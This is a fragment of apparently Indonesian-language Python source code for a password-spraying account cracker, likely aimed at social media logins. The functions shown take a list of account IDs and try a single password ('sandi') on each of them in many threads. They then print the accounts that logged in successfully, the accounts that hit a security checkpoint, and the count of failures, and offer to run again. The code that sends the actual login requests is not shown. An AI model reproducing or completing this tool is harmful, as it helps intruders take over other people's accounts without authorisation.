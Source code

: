 		elif st == 2:

			cekpoint.append(id)

		elif st == 3:

			salah += 1

	cetak('!h[*] Berhasil !c%d'%len(berhasil))

	if len(berhasil) != 0:

		for i in berhasil:

			cetak('!h### !p%s !m=> !b[!k%s!b]'%(i,sandi))

	cetak('!k[*] Cekpoint !c%d'%len(cekpoint))

	if len(cekpoint) != 0:

		for i in cekpoint:

			cetak('!k### !p%s !m=> !b[!k%s!b]'%(i,sandi))

	cetak('!m[*] Gagal    !c'+str(salah))

	i = inputD('[?] Tidak Puas dengan Hasil,Mau coba lagi (y/t)',['Y','T'])

	if i.upper() == 'Y':

		return crack(data)

	else:

		return menu()

def crack0(data,sandi):

	akun = []

	cetak('!h[*] MengCrack !k%d Akun !hdengan sandi !m[!k%s!m]'%(len(data),sandi))

	cetak('!h[*] Cracking  !k0!m%',1)

	sys.stdout.flush()

	jml0,jml1 = 0,0

	th = []

	for i in data:

		i = i.replace(' ','')

		i = i.replace('\n','')

		if len(i) != 0:th.append(mt(i,sandi))

		jml1 += 1

	for i in th:

		i.daemon = True

		try:i.start()
